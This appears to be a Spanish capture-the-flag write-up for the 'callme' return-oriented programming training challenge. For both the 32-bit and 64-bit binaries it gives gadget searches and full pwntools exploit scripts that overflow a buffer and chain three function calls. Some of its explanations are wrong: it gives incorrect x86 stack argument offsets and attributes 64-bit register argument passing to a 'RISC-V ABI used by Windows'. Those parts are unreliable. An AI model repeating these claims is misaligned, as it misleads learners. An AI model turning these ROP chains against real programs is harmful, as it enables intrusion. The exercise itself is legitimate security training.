 # callme

## x86

```
 checksec --file=callme32
[*] '/home/kalcast/Descargas/callme32'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    RUNPATH:    b'.'
    Stripped:   No
```

Ok de nuevo sin canario ni PIE, en la descripcion nos dicen que para ganra debemos llamar a tres funciones: `callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)`, ` callme_two(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)` y `callme_three(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)`

Los argumentos de una funcion en x86 se pasan por el stack. Cuando se hace un "call fun" el stack frame luce asi:
```
 function_return      <-- esp
 reserved_ebp         <-- ebp
 arg1 
 arg2
 arg3
```

La funcion busca el primer argumento en ebp+0x8, el segundo en ebp+0x10 y el tercero en ebp+0x18 y luego retorna a "function_return".

Luego limpia el stack frame moviendo esp con `add esp,12` por ejemplo.

Necesitamos simular este comportamiento para tres llamadas. Podemos obtenerlas con rabin2:
```
 rabin2 -s callme32  | grep callme
35  ---------- 0x00000000 LOCAL  FILE   0        callme.c
3   0x000004e0 0x080484e0 GLOBAL FUNC   16       imp.callme_three
4   0x000004f0 0x080484f0 GLOBAL FUNC   16       imp.callme_one
11  0x00000550 0x08048550 GLOBAL FUNC   16       imp.callme_two
```

Es curioso notar que estas funciones no pertenecen al binario sino que son importadas desde `libcallme32.so`

```
rabin2 -R callme32 | grep callme
WARN: Relocs has not been applied. Please use `-e bin.relocs.apply=true` or `-e bin.cache=true` next time
0x0804a014 0x00001014 SET_32 7     callme_three
0x0804a018 0x00001018 SET_32 7     callme_one
0x0804a030 0x00001030 SET_32 7     callme_two
```

Tenemos las direcciones de las funciones y conocemos los argumentos pero debemos limpiar la pila entre llamadas.

Podemos usar un "gadget", un grupo de instrucciones en ensamblador que hacen algo y terminan en `ret`.

Necesitamos una que haga tres `pop` para eliminar los argumentos y limpiar la pila. Podemos dentro de r2 usar "/R" para obtener un gadget:
``` /R pop
...
  0x080487f8                 5b  pop ebx
  0x080487f9                 5e  pop esi
  0x080487fa                 5f  pop edi
  0x080487fb                 5d  pop ebp
  0x080487fc                 c3  ret
...
```

Podemos usar esta direccion: 0x080487f9.

Exploit con Python/pwntools:
``` python
from pwn import *
elf = context.binary = ELF("./callme32")
io = process("./callme32")

pop_gadget=0x080487f9
def call(addr):
    payload=p32(addr)
    payload+=p32(pop_gadget) 
    #payload+=p32(0x0)
    payload+=p32(0xdeadbeef) # ebp + 8
    payload+=p32(0xcafebabe)
    payload+=p32(0xd00df00d)
    return payload

io.recv()
payload=b"A"*44
payload+=call(elf.sym['callme_one'])
payload+=call(elf.sym['callme_two'])
payload+=call(elf.sym['callme_three'])

io.sendline(payload)
io.interactive()
```

## x86_64

En 64 bits es un poco diferente el paso de argumentos a la funcion. Primero los argumentos se guardan en ciertos registros en dependencia de la ABI que se use, la ABI de RISC-V que usa Windows dice que los primeros tres argumentos se pasan a los registros `rdi`, `rsi` y `rdx` respectivamente.

Encontramos un gadget que nos permita hacer esto:
```
[0x00400760]> /R pop rdi
  0x0040093c                 5f  pop rdi
  0x0040093d                 5e  pop rsi
  0x0040093e                 5a  pop rdx
  0x0040093f                 c3  ret
```

Primero retornamos al gadget, preparamos los registro y después es que llamamos a la función.

Exploit completo con python/pwntools:
``` python
from pwn import *
elf = context.binary = ELF("./callme")
io = process("./callme")

pop_gadget=0x0040093c
def call(addr):
    payload=p64(pop_gadget)
    payload+=p64(0xdeadbeefdeadbeef)
    payload+=p64(0xcafebabecafebabe)
    payload+=p64(0xd00df00dd00df00d)
    payload+=p64(addr)
    return payload

io.recv()
payload=b"A"*40
payload+=call(elf.sym['callme_one'])
payload+=call(elf.sym['callme_two'])
payload+=call(elf.sym['callme_three'])

print(payload)
io.sendline(payload)
io.interactive()
```







